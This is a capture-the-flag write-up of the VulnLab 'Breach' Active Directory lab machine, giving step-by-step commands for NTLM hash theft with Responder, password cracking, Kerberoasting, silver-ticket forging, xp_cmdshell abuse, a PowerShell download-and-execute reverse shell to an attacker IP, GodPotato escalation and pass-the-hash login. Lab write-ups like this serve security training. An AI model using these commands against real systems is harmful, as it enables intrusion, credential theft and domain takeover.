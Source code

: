 ```yaml
---
title: VulnLab -- Breach Writeup
date: 2025-03-30 00:00:00 +0800
categories: [windows machine]
tags: [Active Directory,Silver Ticket,MSSQL Abuse,NTLM Relaying]
image:
    path: images/breach-banner.png
---
```

# Breach

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Breach** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/breach-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 3268,51742,51725,80,464,9389,3269,636,1433,135,593,5985,139,49667 --min-rate=1000 10.10.117.12
```

![image.png](../images/breach.png)

Now let’s go and enumerate the shares

```bash
nxc smb breach.vl -u 'guest' -p '' --shares
```

![image.png](../images/breach%201.png)

> Notice that we got access to two shares
> 

let’s connect to the users share

```bash
smbclient \\\\breach.vl\\Users -U "breach.vl\guest"
```

![image.png](../images/breach%202.png)

we didn’t find anything interesting so let’s go and get the domain users

```bash
nxc smb breach.vl -u 'guest' -p '' --rid-brute 10000
```

![image.png](../images/breach%203.png)

now save the results and let’s extract the users

```bash
cat results.txt | grep -i SidTypeUser | awk '{print $6}' | cut -d "\\" -f 2 > users.txt
```

![image.png](../images/breach%204.png)

Notice that we have a writable share so let’s go create a malisons file to help us steal the ntlm hashes of any user enter the share

```bash
python3 ntlm_theft.py --generate all --server 10.8.5.233 --filename remo
```

![image.png](../images/breach%205.png)

Now let’s open responder to catch the ntlm hashes

```bash
sudo responder -I tun0
```

![image.png](../images/breach%206.png)

now let’s upload the generated files

```bash
smbclient \\\\breach.vl\\share -U "breach.vl\guest"
```

![image.png](../images/breach%207.png)

now let’s put the generated files

```bash
prompt off
mput *
```

![image.png](../images/breach%208.png)

Now let’s go back to responder and see if we got any hashes

![image.png](../images/breach%209.png)

and we got the hash of Julia.Wong so let’s crack it

```bash
john crackme.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![image.png](../images/breach%2010.png)

> As we see we got the password of Julia
> 
> 
> username: Julia.Wong
> password: Computer1
> 

Now let’s see if it’s working

```bash
nxc smb breach.vl -u 'Julia.Wong' -p 'Computer1'
```

![image.png](../images/breach%2011.png)

And it’s working!

Now let’s get bloodhound

```bash
bloodhound-python -ns 10.10.117.12 -d breach.vl -u Julia.Wong -p Computer1 -c all --zip
```

![image.png](../images/breach%2012.png)

Now let’s open the bloodhound and see if we have interesting permissions

![image.png](../images/breach%2013.png)

> Notice that our user is member of Print Operators
> 

Now let’s see the kerbeorstable users 

```bash
impacket-GetUserSPNs breach.vl/'Julia.Wong':'Computer1' -target-domain breach.vl -dc-ip 10.10.117.12 -request -outputfile crackme.txt
```

![image.png](../images/breach%2014.png)

Now let’s try to crack it’s passowrd

```bash
john crackme.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![image.png](../images/breach%2015.png)

> And we go the password of the svc_sql
username: svc_mssql
password: Trustno1
> 

Now let’s try to login to the MSSQL service

```bash
nxc mssql breach.vl -u svc_mssql -p 'Trustno1'
```

![image.png](../images/breach%2016.png)

Now let’s get a silver ticket to forge administrator for MSSQLservice

```bash
impacket-ticketer -domain breach.cl -dc-ip 10.10.117.12 -domain-sid S-1-5-21-2330692793-3312915120-706255856 -spn MSSQLSvc/breachdc.breach.vl:1433 administrator -nthash 69596C7AA1E8DAEE17F8E78870E25A5C
```

![image.png](../images/breach%2017.png)

Now let’s export the ticket

```bash
export KRB5CCNAME=administrator.ccache
```

![image.png](../images/breach%2018.png)

Now let’s connect to MSSQL Service

```bash
impacket-mssqlclient -k breachdc.breach.vl
```

![image.png](../images/breach%2019.png)

now let’s enable the xp_cmdshell function

```bash
EXEC sp_configure 'show advanced options', 1
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', 1
RECONFIGURE
```

![image.png](../images/breach%2020.png)

Now let’s try to execute commands

```bash
exec master..xp_cmdshell 'whoami'
```

![image.png](../images/breach%2021.png)

And we got code execution so let’s go and  get a reverse shell

Now let’s open a listener

```bash
nc -lvnp 1337
```

![image.png](../images/breach%2022.png)

now let’s go and execute a reverse shell

```bash
exec master..xp_cmdshell "powershell -c IEX (New-Object Net.WebClient).DownloadString('http://10.8.5.233/rev.ps1')"
```

![image.png](../images/breach%2023.png)

and we go a shell!

Now let’s see our privileges 

```bash
whoami /all
```

![image.png](../images/breach%2024.png)

> Notice that we have the Impersonation privileges
> 

So let’s download and execute the God Potato to get system access

```bash
 .\gp.exe -cmd "cmd /c whoami"
```

![image.png](../images/breach%2025.png)

Now let’s add Julia.Wong as a local administrator

```bash
.\gp.exe -cmd "cmd /c net localgroup administrators Julia.Wong /add"
```

![image.png](../images/breach%2026.png)

Now let’s dump the hashes using secrets dump

```bash
impacket-secretsdump breach.vl/Julia.Wong:'Computer1'@10.10.117.12
```

![image.png](../images/breach%2027.png)

Now let’s login as administrator

```bash
evil-winrm -i breach.vl -u administrator -H 'd9a47efd620c2f6d349dd035274d2117'
```

![image.png](../images/breach%2028.png)

now let’s go to the administrator folder and get the flag

```bash
cd c:\users\administrator\desktop
```

![image.png](../images/breach%2029.png)

Amazing we got the root flag 🥳

![image.png](../images/breach%2030.png)

That’s it for the **Breach** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTP | CRTO | eWPTX | eCPPT | eMAPT